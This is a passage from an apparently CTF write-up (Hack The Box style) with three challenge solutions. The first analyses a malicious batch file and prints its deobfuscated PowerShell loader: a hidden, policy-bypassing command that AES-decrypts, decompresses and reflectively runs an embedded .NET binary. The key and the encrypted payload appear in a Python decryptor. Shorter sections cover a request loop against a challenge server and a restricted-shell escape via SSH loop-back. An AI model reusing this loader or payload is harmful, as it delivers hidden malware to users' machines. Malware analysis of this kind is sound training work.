%%hImzprlFyw%%GVIREkvxRa%%qIhOqqdyjR%%shhyfkrTvn%%UAnQUvXBfs%%bSIafzAxiZ%%oNvGdyNkLt%%SCbDgQuqTU%%tBsRPAyhtG%%KUKwZheGNw%%INPLAzQfUo%%ekEoGMuERC%%aGQeJYSFDZ%%LODxmGMGqq%%KtmeCApwQn%%MAPkvbWKbC%%HlBVDpGgba%%ZNnASGtLCj%%IwOqmlYsbl%%JbFOJyRrBm%%TiuQnZmosP%%HkiSTlwlIs%%rofQqYizRu%%OckpqzbYcn%%YJZmDySMUy%%cGJiVEdEzp%%QNxYaFZSBu%%jxjvtHoTnR%%fvEtritbuM%%wxzMwkmbmY%%yZlAoExoOn%%pjrIjvjdGR%%mYyPXMYwYi%%vnHosfjdeN%%LfngwmfRCb%%bivuMABwCB%%GapFScCcpe%%lfYSggLrsL%%GhTXhmRnCR%%ENADhKPHot%%KdByPVjCnF%%PjdRUyhsyG%%kpzxAxFvLw%%rddZbDFvhl%'
    for i in enc:
        if i != '%':
            tmp += i
    enc = tmp
    for i in range(0, len(ls), 1):
        if '=' in ls[i]:
            try:
                txt[ls[i][0:10]] = ls[i][11:]
                enc = enc.replace(ls[i][0:10], ls[i][11:])
            except:
                continue
    print(enc)
```

Which, results in this script:

```powershell showLineNumbers{1} /apply/ /components/
    copy C:WindowsSystem32\WindowsPowerShell
    1.0powershell.exe /y execd exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```
> ### TL;DR Short analysis on the script's intention
> * **Step 1:** Initiates AES decryptor using CBC mode, PKCS7 padding mode, key and IV given.
> * **Step 2:** Decrypts the encrypted payload (via `Window.bat`) using the above settings.
> * **Step 3:** Decompresses gzip, then run the output as a binary - executables.

We can use this Python script below to get the binary that I have stated in step 3 above.

```py title="solve/decryptor.py" showLineNumbers{1} /apply/ /components/
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import unpad
    import base64
    import gzip


    key = base64.b64decode('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
    iv = base64.b64decode('2hn/J717js1MwdbbqMn7Lw==')

    encrypted_message = base64.b64decode('SEWD/RSJz4q93dq1c+u3tVcKPbLfn1fTrwl01pkHX3+NzcJ42N+ZgqbF+h+S76xsuroW3DDJ50IxTV/PbQICDVPjPCV3DYvCc244F7AFWphPY3kRy+618kpRSK2jW9RRcOnj8dOuDyeLwHfnBbkGgLE4KoSttWBplznkmb1l50KEFUavXv9ScKbGilo9+85NRKfafzpZjkMhwaCuzbuGZ1+5s9CdUwvo3znUpgmPX7S8K4+uS3SvQNh5iPNBdZHmyfZ9SbSATnsXlP757ockUsZTEdltSce4ZWF1779G6RjtKJcK4yrHGpRIZFYJ3pLosmm7d+SewKQu1vGJwcdLYuHOkdm5mglTyp20x7rDNCxobvCug4Smyrbs8XgS3R4jHMeUl7gdbyV/eTu0bQAMJnIql2pEU/dW0krE90nlgr3tbtitxw3p5nUP9hRYZLLMPOwJ12yNENS7Ics1ciqYh78ZWJiotAd4DEmAjr8zU4UaNaTHS8ykbVmETk5y/224dqK1nCN/j/Pst+sL0Yz5UlK1/uPmcseixQw+9kfdnzrjCv/6VOHE0CU5p8OCyD8LEesGNSrT0n76Vc0UvUJz0uKWqBauVAcm9nzt8nt6sccLMzT+/z4ckTaNDMa3CHocd2VAO0iYELHhFmWUL1JZ6X7pvsuiUIJydYySY8p0nLQ4dwx/ZIwOQLDODRvWhHDDIB+uZYRD5Uq6s7lG+/EFkEgw2UZRaIUj4C0O8sFGHVVZIo/Sayn5T4xcX+s73o7VdXJSKT+KyR0FIIvuK/20zWMOn76PXY3UhF9s7JuSUUS+AVtAq50P6br8PjGhwD+PjoElT77AwfmrzBLib05mcofiWLe4WcAJQvR10iWAPTiSe7gIpzNgr3mr7ZCBSLkcPgY9N4aFGGbNRuH+Y4d9NWax7QPqicsGsmsKrfzQ9RZn+mUslsar1RuRoF569RxveMR7mhE3GajkxNP4y3J85BD0B/eRqw6V9odMyBv+i8fYqx359TDCp7XJ7BojuXnwxniIXFbZOPbW+xlRMc2nVQWupQuy8Ebnwzh0/3AYStL+RNDMEDLXizppqR8euPtSQnFSYanmOTh3ZA5KY03LCq0zkzW1Fxs8AFQwWq+C2K9x3ZFX+5HjbjHlSNRhMONNLrAJETSaaeTWD7ZAECSpsEivtwITr15qjzu4b5dIt9cgwycioyJfIEHoo9d2tqMqGP92oR0SBifTTw13kFDzC7nCLu6ZHVe2wML8rQTcWFnpY74DzWj1suNmWXlwXLGhKPHtBCrh3t9zrroPkufl0+pUZgapekMGreS+jZ4MJW22ZD7ZonO47+8fAlA7sNIcoFNNeBdrDzQe+YJFFnywKU+BL10SHXZPkbgwSGmzo4UPnuiHkThJ5igR4HI4W9YACDw9EjzbBD+jkNd1oZv0MqxMOres2CshH4JzE6Z0GYH+AgIjvPBRBrdOQ/6kc1o6GZqzd9CTwNg4ZsFta5JzIoRVoGEztgoP2rBsRnZiipIveaHnFfIQeDbkt5BA1XjVKIovw+jfcjZz7xv93qDY7EV70J12pAPe2zhg1lAVCOwc1EJCO7Poickjw8tDpYmltU9/lQdj4UJVgMCZdf1SFUjb3jTitXSKdMuIuDHG2kmPAfpUcyBWDm0Wz1Zo28fLT96z8ylXQ8mETUwesAOYAJOHaHbIsdbLc0FasotsWygeAdUv7hDUxID4LB22nZKY0dlkJmLHDMHr8yXaGJhvCIFKjaRw8eKmyzlF5abSzqVwD9iM4M3mF6q19v1k6pkmBGkQVTHQwb89AOhggTpzDERqgqWb3+cvkmgSnntxZ/4v2SvI5PAEogBBIXtLr+B4DxLNIGtOztHf6VZejnMuqbyyzG9t85qWFYQXAraCHFaRWiX6sLheZ3tP6gdjSG1o0KcvIvcQmFp1dk52X609/GDZHxOrsIje4bokQnWBZmVtKe0ufH/37+EnXDhWuNIBkggsTD5fJwMIEfQ7lu+A5Aayz8w1GH6KXcnE0Y4+riosdtT+u/CqWHWY/TdxdJwzKM9nEsWEupAcxK9NaNlk7cZfuElDRsGluLZiOnXbATfIY7v+bjJYOu29nqG+tr38yI740D/zbXfq+PIR1sC6Oog4PK0X0HfVGlYikoiy2ODjq5CvYL8YZN1I4Brb964PWRavFNvF7tgys9iOmsGZ+RNajZGb1t2+8T4j6ue8z500PYYWzgKaH9nVaiTNw2pbNgrvGXTh4CRHYaRxDOdUGHCKvctv4qeZ7F8XRyecYjWtCbBNpUunLaD1eFUNHN0xN+g/SEG6vrEMnmgVxtQvmDu43N9tnAZ0wjMQ6noI7xS/VXtHcZqoIhzxeT0X4HjCxJ2wRpQo+RuWHREhvWicDl9eY8osMZhj0vG7g6APyCmsviNWoHSwAfQNccakRht/enUQBWXQoRGHB+YlF/4K/vllKAP6EcdLYAArBLIKeF93QOsP8uHzfaVnCO50lifAsBZMIW03k6T34ivLpgT9BXV46b/X29GS9NBivFvLrJDXtBhnrnK7tnYoMB9IakCBj590g/NJDJM4XFlQdhlsoCCiDpFOcKKai7kaEQZQvCi0eKIgKpHwQUK6w9++Mg2181+r6UujZ9GERHah6mEBpGuVl0GkwZMVfqvF/RztPpV5WECA83G0n6PGlrymJ/JyDYkuwXCHoCmOBlayDxfcHddzWqQp89tQfBIpdiK7sJPRhuXLjuLoksLFLe1IhcMKg3yXKTsujR7pUu8V4mzITMriV4XMEV6SCrjcGNv9sq50w9hddvupLPnH0bokSKKtcLeEl5G98xVTyCs1XOnBCAYwqFwSl7ZmsLRfqpDsI/aXexYr7L13IdUgqUuSZDSjdpvdXXqeGAVxdfOthMMR5JPvXX9xQ2WSRvt3BxV5EogiSgD7EhCI1G6S0/o4HOJeBZ0wtV1TNMB4lWW7zOG92wX469z6cvpdViAXI/fP54yOH2aI1CsgkfQZfQBIlmEvluORIi3A03AhHNlJ0egsiO37mQK+mBe3NRbYQ/SALtrJru4pqmf/ssjwrJXzPJs5n67ohsp3PDCkaJI4W993h7OAz4KhjmhKidW1U7zWi9my2+ramDQ72V3AyY3QqJg6q9I3/RAyJdpCWJSeKsgcHPsxcpB3V6QQ2d2nCN/6tDGDJKVAmNI8AsmkqGtSLWoRyAzvmz0rFxt9jSg5vykZt6QQYH569W7/dXk/E/XELNe2XCdSQwJ3KvwdsnDs5RB+pZv3/aIahKz3udawqAZ2RP2saKic8Y52JR7hjA2HLr1lCqqIjB/6788WXYdpXCTC3hNTfNxxYjVh8FhHxoa8kn/oPodlqeO2WA9d114+5MR4xSoPCLl4v4LMgoSXqJyRIQt1erT4F/pR5umE0bnuCAFD0wCJ9nOHjAaOmMjHx4DYqKSmlbU89MCU1jbbkL8n55tl62Tkpr7zKupuIX+gQrYjUs5R3nQBWPWfPZgS5yTtpQ0LGppPNrU3rDU37WoUVJQnAthXwu7wkNmwExhhUVviJWo2SLd5EtLC/AksmKt+TStlVAYq4y4jCCyogyhTOqc9lX3alkE1WCUX3uHybGc4qnw0IQdSEua3sfFd+eNSY+GMm8f5qu9plIsUo0XP/O7s2sHNxblkGSQf4XEADsiedID9OSkr7Gz702720PJkdWjtKj5Og2c234V6vjygzx9/FoeVDdwFTzL2y4xEgkjJeF7XT3Tg3SQooIw8K5VgB4lIBJPPGrcyIZ26t+jdheluc2olR2u790Z3khi9HrtUwmEt3BU1IZWMHegimI3S4c0zxGPEs/GgJ6tbIx/FukAfb4/TF/hI0JG1sGkXn1N8W6fTY2zR85VTCZkDhBj+7hsij+bNnCELVq9utMS87160NmSdIFy/56sEMSfLR3EuFVuBWN2bXVrjM7qw888B37Xh6DV1pApZHZNnU1zXNkQV8kZRSUfpvTcrN93tBOjmSex/ljz81uF0p94c50TbHsjqfFMk+Lz2d62MX6Hhe+YHtRgupGtvAlsEwuYI5JG5WFASI9yp6AGFpEKYnR+RenAdQ+Z5j4gMlZs0LgH2fbHXXAhIqLh6OhVF2H1Z071E2PNFmypT7v6gfMLGVdIHjXuEJj/jFIqvJ1T2q9F7/paM1ZILQK/QvzvPTB6ioCr3A+HOVCDAc5OfG26R0sUIi+asNcsrPU4/tJXSCYCDHzCabozWnCWq5HFwgKopnam3ZHuxS436xs4SZT3v1RvkoLkEZLlrUhwgXlI7PmpRUbnYHo1Fa25lcvM23QOf0oldx0jF8VVNSKWK98G52TK0h1Bpu+3LUfebuGDg/v6u34oEAnzbXVzYoNVuv4fcefd78WBtQbmqkYWpoq9lGc9oR+cMliEgMSCNhPH9kyaYv71/cD/EScRKnDkkoEZLnQ6lyU+mOJ3Or3PZj9reszg=')
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_message = cipher.decrypt(encrypted_message)
    decrypted_message = unpad(decrypted_message, 16)

    decrypted_message = gzip.decompress(decrypted_message)

    io = open('E:/Downloads/out', 'wb')
    io.write(decrypted_message)
```

As a result, we get [this binary](https://drive.google.com/file/d/1RsyS6wtl-Dz1HM-0GPDnOYWSxnFMBGoi/view?usp=sharing).

I also double-checked using [Detect It Easy (DIE)](https://www.portablefreeware.com/index.php?id=2757) to see if it is a valid executable or not.


Voilà, we get the executable! I used [dnSpy](https://github.com/dnSpy/dnSpy) to read the code of the binary. Turned out, the flag is right there to be seen!


Flag is: `HTB{0neN0Te?_iT'5_4_tr4P!}`

## Persistence

We are given a website to work with. Initially, connection to the website would result in `404 Not Found`. I then went to read the descriptions, and from it, I got to know that we should send at least `1000 GET requests` to `/flag` to maybe get the flag.

I used this below Python script to automate the task.

```py title="solve/solver.py" showLineNumbers{1} /apply/ /components/
    import requests

    url = "http://64.227.41.83:30380/flag"
    for i in range(10000):
        response = requests.get(url)
        content = response.content
        if b'HTB{' in content:
            print(content)
            break
```

After a short wait, we got the flag.

Flag is: `HTB{y0u_h4v3_p0w3rfuL_sCr1pt1ng_ab1lit13S!}`

## Restricted

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1bu8crqTZ-PEVLRN5Dk6OhVWADcZIoYw3/view?usp=sharing)

We are provided with a server and it's source. From the source, we know that it is a **SSH server**. 

One thing particular about this server is that, if the username is `restricted`, we will not need to provide a password to authenticate, but the user will be in restricted shell mode.


> ### What is restricted shell?
> * If Bash is started with the name rbash, or the --restricted or -r option is supplied at invocation, the shell becomes restricted. A restricted shell is used to set up an environment more controlled than the standard shell. A restricted shell behaves identically to bash with the exception that some commands are disallowed or not performed.
> * For instances, changing directories with the cd builtin is prohibited in restricted shell.

To cope with this, we can use a trick called `SSH self loop-back`, which means we initiate a SSH connection inside a SSH, since restricted shell doesn't prevent us from using SSH commands.

First, we connect to the SSH server using the username `restricted`.


From the source, we also know that the exposed port is 1337. Then, we can use SSH self loop-back to have the permission to use cat, since we also know that `flag.txt` is changed to `flag_*` (with * represents some random bytes) and lies in plainsight.


Flag is: `HTB{r35tr1ct10n5_4r3_p0w3r1355}`